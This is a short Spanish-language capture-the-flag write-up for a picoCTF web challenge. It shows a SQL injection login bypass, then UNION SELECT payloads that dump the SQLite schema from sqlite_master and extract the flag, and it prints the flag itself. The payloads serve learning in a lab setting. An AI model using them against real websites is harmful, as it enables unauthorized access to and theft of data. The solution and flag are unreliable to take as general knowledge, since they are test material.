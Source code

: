## Descripción
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:58938/).
## Solución
usé "' or 1=1;" para logearme a la página.
busqué en la página que nos pasó el profe:
```
|Extract Database Structure (sqlite_version > 3.33.0)|`SELECT sql FROM sqlite_master`|
```
usé
```
' union SELECT sql,2,3 FROM sqlite_master ;
```
y me mostró las sentencias que se usaron para crear todas las tablas, en especial una que se llama more_table. Usé:
```
' union SELECT 1,2,flag FROM more_table ;
```
y me salió:
```
|City|Address|Phone|
|---|---|---|
|1|2|If you are here, you must have seen it|
|1|2|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}|
```
## Notas
[union] - se utiliza para combinar los resultados de dos o más sentencias `SELECT` en un único conjunto de resultados
## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md